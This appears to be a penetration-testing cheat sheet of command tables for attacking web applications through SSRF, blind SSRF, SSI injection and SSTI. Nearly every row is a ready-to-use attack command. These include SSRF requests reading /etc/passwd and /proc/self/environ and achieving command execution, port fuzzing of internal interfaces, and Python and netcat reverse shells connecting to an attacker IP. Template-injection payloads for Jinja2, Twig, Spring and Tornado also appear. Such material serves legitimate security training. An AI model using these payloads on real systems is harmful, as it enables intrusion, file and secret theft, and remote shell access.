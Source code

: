 | `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`                              | Retrieving a remote file through the target application (HTTP Schema)          |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                                       | Retrieving a local file through the target application (File Schema)           |
| `for port in {1..65535};do echo $port >> ports.txt;done`                                                          | Generating a wordlist of possible ports                                        |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`                            | Fuzzing for ports on the internal interface                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                                    | Interacting with the internal interface on the discovered port                 |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`                              | Interacting with the internal application                                      |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`                      | Discovering web application listening in on localhost                          |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`                   | Modifying the URL to bypass the error message                                  |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`       | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`        | Retrieving a local file through the target application                         |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host                            |
| `sudo apt-get install jq`                                                                                         | Installing jq                                                                  |

#### Blind SSRF Exploitation Example

| Command                                                                                                                                                                                                                             | Description                                     |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| `nc -lvnp 9090`                                                                                                                                                                                                                     | Starting a netcat listener                      |
| `echo "\<B64 encoded response>" \| base64 -d`                                                                                                                                                                                       | Decoding the base64 encoded response            |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));\[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoded twice) |

#### SSI Injection Exploitation Example

#### SSI Directive Payload Description

| Command                                                                                                    | Description   |
| ---------------------------------------------------------------------------------------------------------- | ------------- |
| `<!--#echo var="DATE_LOCAL" -->`                                                                           | Date          |
| `<!--#printenv -->`                                                                                        | All variables |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo /bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell |

SSTI Exploitation Example 1

| Command                                                                                                | Description                                                          |
| ------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------- |
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                                 | Interacting with the remote target (Spring payload)                  |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`           | Interacting with the remote target (Twig payload)                    |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`                     | Interacting with the remote target (Jinja2 basic injection)          |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`       | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)                 |